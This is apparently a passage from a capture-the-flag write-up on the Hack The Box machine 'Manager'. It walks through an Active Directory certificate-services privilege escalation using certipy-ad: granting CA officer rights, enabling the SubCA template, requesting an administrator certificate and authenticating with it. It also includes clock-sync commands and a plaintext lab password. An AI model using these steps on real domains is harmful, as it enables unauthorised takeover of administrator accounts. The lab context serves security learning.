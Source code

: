 ### Authenticated with the obtained certificate

{% code overflow="wrap" %}
```bash
certipy-ad auth -pfx administrator.pfx -username administrator -domain manager.htb -dc-ip 10.10.11.236
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (337).png" alt=""><figcaption></figcaption></figure>

However, during this process, I encountered an error related to clock skew. This error, known as `KRB_AP_ERR_SKEW` (Clock skew too great), occurs when there is a significant time difference between the local system and the remote server. In this case, the time skew was too substantial for the Kerberos authentication system to handle, resulting in the error. If you get this type of error, that means you need to sync your time.

To synchronize the system time with the ‘manager.htb’ server use the following command:

```bash
sudo ntpdate -u manager.htb
```

&#x20;if it didn’t work use:

```bash
timedatectl timedatectl set-ntp 0 && rdate -n 10.10.11.236
```

The server resets its settings automatically within a minute, so it’s important to have all the commands ready for quick execution. You can prepare a script or a set of commands that you can quickly copy and paste as needed:

{% code overflow="wrap" %}
```bash
user='raven@manager.htb'
password='R4v3nBe5tD3veloP3r!123'
ca='manager-DC01-CA'
```
{% endcode %}

```bash
certipy-ad ca -ca $ca -add-officer raven -username $user -password $password
```

```bash
certipy-ad ca -ca $ca -enable-template SubCA -username $user -password $password 
```

{% code overflow="wrap" %}
```bash
certipy-ad req -username $user -password $password -ca $ca -target manager.htb -template SubCA -upn 'administrator@manager.htb'
```
{% endcode %}
